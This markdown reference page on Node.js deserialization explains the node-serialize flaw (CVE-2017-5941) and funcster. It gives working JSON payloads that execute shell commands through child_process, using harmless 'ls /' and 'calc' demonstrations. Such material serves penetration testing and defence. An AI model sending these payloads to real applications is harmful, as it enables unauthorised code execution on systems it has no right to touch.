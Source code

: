 # Node Deserialization

> Node.js deserialization refers to the process of reconstructing JavaScript objects from a serialized format, such as JSON, BSON, or other formats that represent structured data. In Node.js applications, serialization and deserialization are commonly used for data storage, caching, and inter-process communication.


## Summary

* [Methodology](#methodology)
    * [node-serialize](#node-serialize)
    * [funcster](#funcster)
* [References](#references)


## Methodology

* In Node source code, look for:

    * `node-serialize`
    * `serialize-to-js`
    * `funcster`


### node-serialize

> An issue was discovered in the node-serialize package 0.0.4 for Node.js. Untrusted data passed into the `unserialize()` function can be exploited to achieve arbitrary code execution by passing a JavaScript Object with an Immediately Invoked Function Expression (IIFE).

1. Generate a serialized payload
    ```js
    var y = {
        rce : function(){
            require('child_process').exec('ls /', function(error,
            stdout, stderr) { console.log(stdout) });
        },
    }
    var serialize = require('node-serialize');
    console.log("Serialized: \n" + serialize.serialize(y));
    ```
2. Add bracket `()` to force the execution
    ```js
    {"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}()"}
    ```
3. Send the payload


### funcster

```js
{"rce":{"__js_function":"function(){CMD=\"cmd /c calc\";const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').exec(CMD,function(error,stdout,stderr){console.log(stdout)});}()"}}
```


## References

- [CVE-2017-5941 - National Vulnerability Database - February 9, 2017](https://nvd.nist.gov/vuln/detail/CVE-2017-5941)
- [Exploiting Node.js deserialization bug for Remote Code Execution (CVE-2017-5941) - Ajin Abraham - October 31, 2018](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)
- [NodeJS Deserialization - gonczor - January 8, 2020](https://blacksheephacks.pl/nodejs-deserialization/)